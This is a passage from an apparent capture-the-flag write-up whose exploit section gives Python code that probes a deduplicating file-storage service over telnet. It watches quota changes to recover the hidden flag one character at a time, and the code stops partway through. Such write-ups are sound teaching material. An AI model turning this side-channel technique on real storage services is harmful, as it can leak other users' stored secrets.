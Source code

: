 > Because `os.path.commonprefix` is called on `data` our results shouldn't be crooked by our inputs.

[Back to top](#contents) ⤴

# Exploit

Here is the exploit code:

> I'm using the `telnetlib` to communicate with the endpoint.

```py
#!/usr/bin/env python3

import string
from telnetlib import Telnet

host = "filestore.2021.ctfcompetition.com"
port = 1337

current_quota = 0
previous_quota = 0

accepted_characters = ''

def tc_read_until(tc, end):
    return tc.read_until(end.encode('ascii'), 5)

def tc_write(tc, msg):
    tc.write(msg.encode('ascii') + b"\n")

def get_memory_usage(tc):
    tc_write(tc, "status")
    tc_read_until(tc,"Quota:")
    quota_string = tc_read_until(tc,"kB")[:-2].decode('ascii')
    return int(quota_string.strip().replace('.',''))

def store(tc, text):
    tc_write(tc, "store")
    tc_read_until(tc,"data...")
    tc_write(tc, text)
    tc_read_until(tc,"- exit")

def get_character_set(tc):
    possible_chars = string.ascii_letters + string.digits + "!@#$%^()&*-+=[];'.></\\_{}"
    current_quota = get_memory_usage(tc)

    accepted = ''
    for char in possible_chars:
        previous_quota = current_quota
        store(tc, char)
        current_quota = get_memory_usage(tc)
        if previous_quota == current_quota:
            accepted += char            
    return accepted

def guess_flag(tc, character_set):
    flag = 'CTF{'
    current_quota = get_memory_usage(tc)
    exhausted = False
    i = 0
    while exhausted != True:
        while i < len(character_set):
            char = character_set[i]
```